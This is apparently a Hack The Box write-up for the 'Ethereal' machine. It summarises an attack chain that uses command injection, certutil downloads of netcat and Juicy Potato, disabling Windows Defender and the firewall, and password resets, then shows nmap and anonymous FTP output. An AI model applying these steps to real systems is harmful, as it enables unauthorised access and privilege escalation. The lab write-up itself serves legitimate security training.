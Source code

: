 - Find the MS-DOS password manager file FDISK.zip on the FTP server
- Run Dosbox, downloading missing dependies for pbox.exe, retrieve passwords after guessing the secret key
- Find the command injection vulnerability on the "Ping" page
- Use command injection vulnerability to scan open outbound ports, find TCP ports 73 and 136
- Use certutil.exe to download nc.exe on the box, get a shell as user IIS
- Use certutil.exe to download Juicy Potato on the box, get a shell as SYSTEM
- Disable Windows Defender & Windows Firewall
- Change passwords for users `jorge` and `rupal`, then RDP into the box to get both `user.txt` and `root.txt` flags

## Detailed steps

### Portscan

```
root@darkisland:~/hackthebox/Machines/Ethereal# nmap -sC -sV -oA ethereal 10.10.10.106
Starting Nmap 7.70 ( https://nmap.org ) at 2018-10-08 13:35 EDT
Nmap scan report for ethereal.htb (10.10.10.106)
Host is up (0.10s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV IP 172.16.249.135 is not the same as 10.10.10.106
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp   open  http    Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Ethereal
8080/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=ethereal.htb
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: 401 - Unauthorized: Access is denied due to invalid credentials.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.65 seconds
```

### FTP enumeration

Anonymous access is allowed on the FTP server.

```
root@darkisland:~/hackthebox/Machines/Ethereal# ftp 10.10.10.106
Connected to 10.10.10.106.
220 Microsoft FTP Service
Name (10.10.10.106:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
07-10-18  10:03PM       <DIR>          binaries
09-02-09  09:58AM                 4122 CHIPSET.txt
01-12-03  09:58AM              1173879 DISK1.zip
01-22-11  09:58AM               182396 edb143en.exe
```